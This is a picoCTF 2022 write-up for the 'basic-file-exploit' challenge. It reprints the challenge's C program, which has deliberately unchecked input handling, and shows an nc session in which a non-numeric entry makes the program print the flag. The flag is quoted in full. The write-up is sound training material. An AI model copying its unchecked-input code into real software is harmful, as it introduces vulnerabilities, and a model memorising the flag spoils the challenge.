

# basic-file-exploit - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 100 Points

## Description


 
## basic-file-exploit Solution

Let's observe the attached file [program-redacted.c](./program-redacted.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <stdint.h>
#include <ctype.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60


static const char* flag = "[REDACTED]";

static char data[10][100];
static int input_lengths[10];
static int inputs = 0;


int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
    }
    
    
    /* Empty the FD Set */
    FD_ZERO(&input_set );
    /* Listen to the input descriptor */
    FD_SET(STDIN_FILENO, &input_set);

    /* Waiting for some seconds */
    timeout.tv_sec = WAIT;    // WAIT seconds
    timeout.tv_usec = 0;    // 0 milliseconds

    /* Listening for input stream for any activity */
    ready_for_reading = select(1, &input_set, NULL, NULL, &timeout);
    /* Here, first parameter is number of FDs in the set, 
     * second is our FD set for reading,
     * third is the FD set in which any write activity needs to updated,
     * which is not required in this case. 
     * Fourth is timeout
     */

    if (ready_for_reading == -1) {
        /* Some error has occured in input */
        printf("Unable to read your input\n");
        return -1;
    } 

    if (ready_for_reading) {
        read_bytes = read(0, input, l-1);
        if(input[read_bytes-1]=='\n'){
        --read_bytes;
        input[read_bytes]='\0';
        }
        if(read_bytes==0){
            printf("No data given.\n");
            return -4;
        } else {
            return 0;
        }
    } else {
        printf("Timed out waiting for user input. Press Ctrl-C to disconnect\n");
        return -3;
    }

    return 0;
}


static void data_write() {
  char input[100];
  char len[4];
  long length;
  int r;
  
  printf("Please enter your data:\n");
  r = tgetinput(input, 100);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  while (true) {
    printf("Please enter the length of your data:\n");
    r = tgetinput(len, 4);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
  
    if ((length = strtol(len, NULL, 10)) == 0) {
      puts("Please put in a valid length");
    } else {
      break;
    }
  }

  if (inputs > 10) {
    inputs = 0;
  }

  strcpy(data[inputs], input);
  input_lengths[inputs] = length;

  printf("Your entry number is: %d\n", inputs + 1);
  inputs++;
}


static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}


int main(int argc, char** argv) {
  char input[3] = {'\0'};
  long command;
  int r;

  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  while (true) {   
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}

```

As we can see, To print the flag we need to get into the function ```data_read()```.

On ```data_read()``` function we can see the following:
```c
...
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
...
```

If we are inserting a string instead of a number we get into the ```if``` statement and we get the flag, Let's try it.

First, We need to call to ```data_write()```` by choose option 1:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/basic_file_exploit]
└──╼ $ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
abc
abc
Please enter the length of your data:
3
3
Your entry number is: 1
Write successful, would you like to do anything else?

```

Now, Let's choose option ```2``` and insert a character to get into the ```if``` statement:
```
console
2
2
Please enter the entry number of your data:
a
a
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_25D6CDDB}
```

And we get the flag ```picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_25D6CDDB}```.